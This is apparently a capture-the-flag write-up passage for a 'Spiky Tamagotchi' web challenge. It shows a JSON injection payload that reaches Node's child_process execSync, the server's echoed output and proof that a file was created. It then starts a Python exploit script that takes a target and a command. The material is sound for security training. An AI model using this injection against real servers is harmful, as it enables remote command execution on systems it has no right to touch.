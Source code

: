 ## Code Injection

Payload:

```http
POST /api/activity HTTP/1.1
Host: 192.168.1.199:1337
Content-Length: 150
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.199:1337
Referer: http://192.168.1.199:1337/interface
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjU3MzY1OTM5fQ.ge8fJPqhC0mZv50OX902UBzONUUB4zkmC7cvwCng-mY;
Connection: close

{"activity":"' + (global.process.mainModule.require('child_process').execSync('touch /dev/shm/test'))+'","health":"99","weight":"99","happiness":"99"}
```

Server Response:

```jsx
with(a='' + (global.process.mainModule.require('child_process').execSync('touch /dev/shm/test'))+'', hp=99, w=99, hs=99) {
                if (a == 'feed') { hp += 1; w += 5; hs += 3; } if (a == 'play') { w -= 5; hp += 2; hs += 3; } if (a == 'sleep') { hp += 2; w += 3; hs += 3; } if ((a == 'feed' || a == 'sleep' ) && w > 70) { hp -= 10; hs -= 10; } else if ((a == 'feed' || a == 'sleep' ) && w < 40) { hp += 10; hs += 5; } else if (a == 'play' && w < 40) { hp -= 10; hs -= 10; } else if ( hs > 70 && (hp < 40 || w < 30)) { hs -= 10; }  if ( hs > 70 ) { m = 'kissy' } else if ( hs < 40 ) { m = 'cry' } else { m = 'awkward'; } if ( hs > 100) { hs = 100; } if ( hs < 5) { hs = 5; } if ( hp < 5) { hp = 5; } if ( hp > 100) { hp = 100; }  if (w < 10) { w = 10 } return {m, hp, w, hs}
                }
[Function: anonymous]

...

# ls /dev/shm/
test
```

# Final Exploit

```python
#!/usr/bin/python3
import urllib.parse, argparse
import requests
import json

parser = argparse.ArgumentParser(description="Exploit Spiky Tamagotchi")
parser.add_argument("-i","--ip", help="target IP")
parser.add_argument("-p","--port", help="target port")
parser.add_argument("-c","--cmd", help="command to execute")
parser.add_argument("--username", help="login username (deafult: admin)", default="admin")

args = parser.parse_args()

if not(args.ip and args.port and args.cmd):
    print("Usage: exploit.py -i <ip> -p <port> -c <cmd>")
    exit

```